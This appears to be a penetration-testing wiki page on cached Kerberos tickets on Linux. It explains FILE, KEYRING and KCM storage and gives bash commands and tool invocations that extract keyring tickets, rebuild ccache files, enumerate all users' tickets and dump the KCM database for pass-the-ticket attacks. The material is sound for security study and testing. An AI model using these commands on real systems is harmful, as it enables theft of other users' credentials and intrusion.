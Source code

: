 ```yaml
---
authors: Hakumarachi, ShutdownRepo
---
```


# 🛠️ Cached Kerberos tickets

## Theory

Kerberos tickets can be cached on systems to allow for faster authentication without requiring users to re-enter credentials. Understanding how these tickets are stored is crucial for both defensive and offensive operations.

### Storage Methods

:::tabs

== UNIX-like

On Linux and other UNIX-like systems, tickets can be stored in 3 different ways:

| Storage     | Description                                                                                                                               |
|-------------|-------------------------------------------------------------------------------------------------------------------------------------------|
| **FILE**    | Stores tickets in files, typically under `/tmp` directory, in the format `krb5cc_%{uid}`                                                   |
| **KEYRING** | Stores tickets in a dedicated kernel keyring space, only accessible to the ticket owner                                                     | 
| **KCM**     | Stores tickets in an LDAP-like database, typically at `/var/lib/sss/secrets/secrets.ldb` (default when using SSSD)                        |

The storage method is configured via the `default_ccache_name` parameter in `/etc/krb5.conf`, which is readable by all users.

> [!NOTE]
> This configuration can be overridden by files in `/etc/krb5.conf.d/`. When using SSSD, the value is typically set in `/etc/krb5.conf.d/kcm_default_ccache`

== Windows 🛠️

On Windows systems, Kerberos tickets are stored in memory by the Local Security Authority Subsystem Service (LSASS) process.

// TODO: Add more details

:::

## Practice

### From UNIX-like systems

:::tabs

== FILE Storage

Tickets are stored as files in the configured directory (default: `/tmp`). These files can be directly used for [Pass-the-Ticket](../../kerberos/ptt.md) attacks.

== KEYRING Storage

> [!NOTE]
> While root cannot directly read other users' keyring content, they can still access tickets by using `su - $user`

The `keyctl` utility (commonly pre-installed) can be used to read keyring content:

```bash
# Get persistent keyring address
keyctl get_persistent @u

# Show keyring content
keyctl show 30711432
```

It will display the content of the keyring in a readable format.

```
Keyring
  30711432 ---lswrv      0 65534  keyring: _persistent.0
 127492740 --alswrv      0     0   \_ keyring: _krb
 556713767 --alswrv      0     0       \_ user: krb_ccache:primary
1002684101 --alswrv      0     0       \_ keyring: 0
 110355059 --alswrv      0     0           \_ user: __krb5_princ__
 575224320 --als-rv      0     0           \_ big_key: krb5_ccache_conf_data/pa_type/krbtgt\/LAB.LOCAL\@LAB.LOCAL@X-CACHECONF:
 161110247 --als-rv      0     0           \_ big_key: krbtgt/LAB.LOCAL@LAB.LOCAL
 760223933 --alswrv      0     0           \_ user: __krb5_time_offsets__
```

To reconstruct a Kerberos ticket, you need:
1. The `__krb5_princ__` value (in the example above, it's `110355059`)
2. The service key value (the `big_key` value. In the example above, it's `161110247`)

```bash
# Get principal value
keyctl print $PRINCIPALS_ADDRESS

# Get service key
keyctl print $KEY_ADDRESS

The result will be an hexadecimal string, that can be appended to the ticket header to reconstruct the full ticket.

# Reconstruct ticket
HEADER='0504000c00010008ffffffff00000000'
PRINCIPALS=$(keyctl print $PRINCIPALS_ADDRESS | awk -F : '{print $3}')
KEY=$(keyctl print $KEY_ADDRESS | awk -F : '{print $3}')
ticket=$HEADER$PRINCIPALS$KEY

# Save to file
echo "$ticket" | xxd -r -p > ticket.ccache
```

> [!TIP]
> [CCacheExtractor](https://github.com/Hakumarachi/ccacheExtractor) can automate this process:
> ```bash
> python3 ccacheExtractor.py keyring --principals $PRINCIPALS --key $KEY
> ```

A domain joined machine can cache lots of tickets from different users. It would be tedious to list them all manually.
To list all available tickets, the `/proc/key-users` file can be used. It's readable by all users and contains the list of all users with persistent keyrings.

```bash
# List all tickets
for uid in $(awk '{print$1}' /proc/key-users | tr -d :); do
    res=$(KRB5CCNAME=KEYRING:persistent:$uid klist 2>&1)
    if [ $? -eq 0 ]; then
        echo -e "\n=== UID $uid ==="
        echo "$res"
    fi
done

# Use a specific ticket
KRB5CCNAME=KEYRING:persistent:$UID
```

> [!SUCCESS]
> [keyringCCacheDumper](https://github.com/Hakumarachi/keyringCCacheDumper) can automatically extract all tickets.

== KCM Storage

KCM stores tickets in an LDB database file, typically only readable by root. [CCacheExtractor](https://github.com/Hakumarachi/ccacheExtractor) can be used to extract tickets:

```bash
# Extract all tickets from LDB database
python3 ccacheExtractor.py kcm ./secrets.ldb
```

Extracted tickets can then be used with [Pass-the-cache](../../kerberos/ptc.md) or [Pass-the-tickets](../../kerberos/ptt.md) depending on the ticket type.

### From Windows

// TODO: Add more details

:::
